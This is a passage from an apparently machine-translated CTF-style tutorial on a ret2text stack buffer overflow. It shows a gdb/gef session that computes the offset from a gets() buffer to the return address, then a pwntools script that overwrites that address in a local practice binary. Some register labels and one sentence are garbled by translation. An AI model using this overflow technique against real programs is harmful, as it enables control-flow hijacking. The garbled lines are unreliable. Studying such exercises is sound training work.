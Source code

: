 

You can see that the string is indexed relative to esp, so we need to debug, put the breakpoint at the call, view esp, ebp, as follows


```shell

gef➤  b *0x080486AE

Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.

gef➤  r

There is something amazing here, do you know anything?



Breakpoint 1, 0x080486ae in main () at ret2text.c:24

24	    gets(buf);

───────────────────────────────────────────────────────────────────────[ registers ]────

$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"

$ebx   : 0x00000000

$ ecx: 0xffffffff
$edx   : 0xf7faf870  →  0x00000000

$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"

$ebp   : 0xffffcdc8  →  0x00000000

$ you are: 0xf7fae000 → 0x001b1db0
$ edi: 0xf7fae000 → 0x001b1db0
$ Eip: 0x080486ae → <main+102> call 0x8048460 <gets@plt>
```



You can see that esp is 0xffffcd40, ebp is the specific payload as follows 0xffffcdc8, and the index of s relative to esp is [esp+0x1c], so the address of s is 0xffffcd5c, so the offset of s relative to ebp is 0x6C, so the relative The offset from the return address is 0x6c+4.


The final payload is as follows:


```python

##!/usr/bin/env python

from pwn import *



sh = process('./ret2text')

target = 0x804863a

sh.sendline('A' * (0x6c+4) + p32(target))

sh.interactive()

```
